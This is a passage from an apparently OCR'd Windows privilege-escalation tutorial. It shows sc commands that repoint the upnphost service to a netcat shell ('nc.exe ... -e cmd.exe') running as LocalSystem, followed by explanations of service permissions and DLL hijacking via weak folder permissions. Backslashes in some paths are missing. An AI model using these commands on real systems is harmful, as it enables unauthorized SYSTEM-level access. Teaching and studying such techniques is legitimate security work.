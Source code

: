     C:> sc config upnphost binpath= "C:nc.exe -nv 127.0.0.1 9988 -e C:WINDOWSSystem32cmd.exe"
    [SC] ChangeServiceConfig SUCCESS

    C:> sc config upnphost obj= ".LocalSystem" password= ""
    [SC] ChangeServiceConfig SUCCESS

    C:> sc qc upnphost

    [SC] GetServiceConfig SUCCESS

    SERVICE_NAME: upnphost
            TYPE               : 20  WIN32_SHARE_PROCESS
            START_TYPE         : 3   DEMAND_START
            ERROR_CONTROL      : 1   NORMAL
            BINARY_PATH_NAME   : C:nc.exe -nv 127.0.0.1 9988 -e C:WINDOWSSystem32cmd.exe
            LOAD_ORDER_GROUP   :
            TAG                : 0
            DISPLAY_NAME       : Universal Plug and Play Device Host
            DEPENDENCIES       : SSDPSRV
            SERVICE_START_NAME : LocalSystem

    C:> net start upnphost

[ ![][31] ][32]

Service Shell (upnphost)

We will not always have full access to a service even if it is incorrectly configured. The image below is taken from Brett Moore's presentation on Windows privilege escalation, any of these access rights will give us a SYSTEM shell.

![][33]

The important thing to remember is that we find out what user groups our compromised session belongs to. As mentioned previously "Power Users" is also considered to be a low privileged user group. "Power Users" have their own set of vulnerabilities, Mark Russinovich has written a very interesting article on the subject.

The Power in Power Users (Mark Russinovich) - [here][34]

Finally we will examine file/folder permissions, if we can not attack the OS directly we will let the OS do all the hard work. There is to much ground to cover here so instead I will show you two kinds of permission vulnerabilities and how to take advantage of them. Once you grasp the general idea you will be able to apply these techniques to other situations.

For our first example we will replicate the results of a post written by Parvez from GreyHatHacker; "Elevating privileges by exploiting weak folder permissions". This is a great privilege escalation write-up and I highly recommend that you read his post [here][12].

This example is a special case of DLL hijacking. Programs usually can't function by themselves, they have a lot of resources they need to hook into (mostly DLL's but also proprietary files). If a program or service loads a file from a directory we have write access to we can abuse that to pop a shell with the privileges the program runs as.

Generally a Windows application will use pre-defined search paths to find DLL's and it will check these paths in a specific order. DLL hijacking usually happens by placing a malicious DLL in one of these paths while making sure that DLL is found before the legitimate one. This problem can be mitigated by having the application specify absolute paths to the DLL's that it needs.
